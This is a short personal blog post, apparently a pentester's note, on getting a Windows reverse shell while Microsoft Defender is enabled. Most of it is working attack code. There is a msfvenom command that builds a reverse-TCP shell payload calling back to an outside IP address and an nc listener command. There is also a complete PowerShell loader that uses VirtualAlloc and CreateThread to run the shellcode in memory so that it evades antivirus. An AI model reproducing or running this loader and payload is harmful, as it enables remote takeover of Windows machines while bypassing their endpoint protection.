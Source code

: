 +++
title = 'RSHELLing With Defender Enabled'
date = 2024-12-11T08:52:49+02:00
draft = false
+++

When Microsoft Defender is enabled a way to bypass it is to execute the shell code by loading it to the memory. I found this technique interesting and worth saving for later use. 

## Payload

````
# Create payload with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.184.18 LPORT=4444 -f powershell
````

## Start A Listener

````
rlwrap nc -nvlp 4444
````

## Execute The Payload

`````
# Copy and paste directly to PowerShell
# Phase 1
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

# Phase 2
[Byte[]] $buf = <PAYLOAD-HERE>

# Phase 3
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
`````

Not a novel but still a super interesting technique for me. 

